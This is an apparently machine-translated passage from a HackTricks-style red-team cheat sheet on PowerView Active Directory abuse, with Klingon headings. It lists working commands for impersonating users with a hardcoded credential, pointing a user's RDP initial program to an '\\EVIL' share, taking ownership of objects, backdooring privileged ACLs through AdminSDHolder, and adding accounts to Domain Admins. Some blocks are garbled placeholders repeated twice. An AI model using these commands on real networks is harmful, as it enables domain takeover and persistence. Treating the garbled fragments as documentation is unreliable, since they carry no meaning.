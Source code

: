 ```
Invoke-UserImpersonation -Username <username>
```

Replace `<username>` with the username of the user you want to impersonate. This command will execute the subsequent commands as if you were that user.
```powershell
# if running in -sta mode, impersonate another credential a la "runas /netonly"
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
Invoke-UserImpersonation -Credential $Cred
# ... action
Invoke-RevertToSelf
```
#### QaD vItlhutlh

```powershell
$variable = value
```

#### QaD vItlhutlh

```powershell
$variable = value
```
```powershell
# set the specified property for the given user identity
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose
# Set the owner of 'dfm' in the current domain to 'harmj0y'
Set-DomainObjectOwner -Identity dfm -OwnerIdentity harmj0y
# Backdoor the ACLs of all privileged accounts with the 'matt' account through AdminSDHolder abuse
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -PrincipalIdentity matt -Rights All
# Add user to 'Domain Admins'
Add-NetGroupUser -Username username -GroupName 'Domain Admins' -Domain my.domain.local
```
<details><summary><strong>qaStaHvIS AWS hacking vItlhlaHbe'chugh</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
